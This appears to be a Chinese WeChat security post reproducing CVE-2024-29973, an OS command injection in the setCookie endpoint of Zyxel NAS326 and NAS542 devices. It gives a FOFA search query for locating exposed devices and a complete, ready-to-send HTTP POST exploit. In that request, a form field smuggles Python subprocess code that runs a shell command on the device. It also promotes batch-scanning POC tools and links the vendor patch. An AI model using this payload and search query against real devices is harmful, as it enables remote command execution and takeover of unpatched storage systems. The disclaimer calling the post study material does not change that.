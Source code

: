 #  Zyxel NAS系统setCookie接口存在远程命令执行漏洞CVE-2024-29973 附POC   
南风漏洞复现文库  南风漏洞复现文库   2024-06-23 23:26  
  
@[toc]  
# Zyxel NAS系统setCookie接口存在远程命令执行漏洞CVE-2024-29973 附POC  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Zyxel NAS系统setCookie接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Zyxel NAS  
## 2.漏洞描述  
  
Zyxel NAS542和Zyxel NAS326都是中国合勤（Zyxel）公司的产品。Zyxel NAS542是一款NAS（网络附加存储）设备。Zyxel NAS326是一款云存储 NAS。Zyxel NAS326 V5.21(AAZF.17)C0之前版本、NAS542 V5.21(ABAG.14)C0之前版本存在操作系统命令注入漏洞，该漏洞源于setCookie参数中存在命令注入漏洞，从而导致攻击者可通过HTTP POST请求来执行某些操作系统 (OS) 命令。  
  
CVE编号:CVE-2024-29973  
  
CNNVD编号:CNNVD-202406-149  
  
CNVD编号:  
## 3.影响版本  
  
Zyxel NAS  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b6nQXzocgSLa11Bb18TIZnpmibK7GcaO7mrq1YZTHGxfnzXrlwC3utMlLoIwAtGWuscCJ9VFDC4cw/640?wx_fmt=jpeg&from=appmsg "null")  
  
Zyxel NAS系统setCookie接口存在远程命令执行漏洞  
## 4.fofa查询语句  
  
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/cmd,/simZysh/register_main/setCookie  
  
漏洞数据包：  
```
POST /cmd,/simZysh/register_main/setCookie HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Length: 235
Content-Type: multipart/form-data; boundary=9bd1569218faca1ab1dbbefdfa574d30

--9bd1569218faca1ab1dbbefdfa574d30
Content-Disposition: form-data; name="c0"

storage_ext_cgi CGIGetExtStoInfo None) and False or __import__("subprocess").check_output("ifconfig", shell=True)#
--9bd1569218faca1ab1dbbefdfa574d30--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b6nQXzocgSLa11Bb18TIZnLUNOYSWNbiaB7a36RMQp2jzG4Qib5QF5NecPBFLvCXaXkEtUib6fyE9pg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b6nQXzocgSLa11Bb18TIZn1lYPdTdQXvS1ycPzL6D7nxhicGmCC6HicY6cw97G0lictyN8nEAhxk1CA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b6nQXzocgSLa11Bb18TIZnapW2nV8rs0C46pn7n3l7GSLCzHHic1NO32cuDXichxsd4MG9x07AePjw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b6nQXzocgSLa11Bb18TIZnTD8rH8C9ALaoQ80TpaunqYcDyAyXD5rdxrFnicUljJ52MeF0YPWASNw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b6nQXzocgSLa11Bb18TIZnWmRo8LB1I2mnswghMhic9DnIAhv8c1iaYS7lNEuVz8H7P7FjLayqHibfA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b6nQXzocgSLa11Bb18TIZnYOrcfS7oqO1jYCBePbMnQ7gfILQEv5dhcRfhmJUD1wGrLqwjHvmUbg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
官方补丁 https://www.zyxel.com/global/en/support/security-advisories/zyxel-security-advisory-for-multiple-vulnerabilities-in-nas-products-06-04-2024  
## 8.往期回顾  
  
[Hikvision海康综合安防管理平台applyAutoLoginTicket接口存在远程命令执行漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486614&idx=1&sn=59b11180ff49c681b6eaa049e27549aa&chksm=974b8191a03c0887ae87c82c8419756fa699dfeece64670ce9c8b9c3ea2c4e25ce65953e4394&scene=21#wechat_redirect)  
  
  
  
  
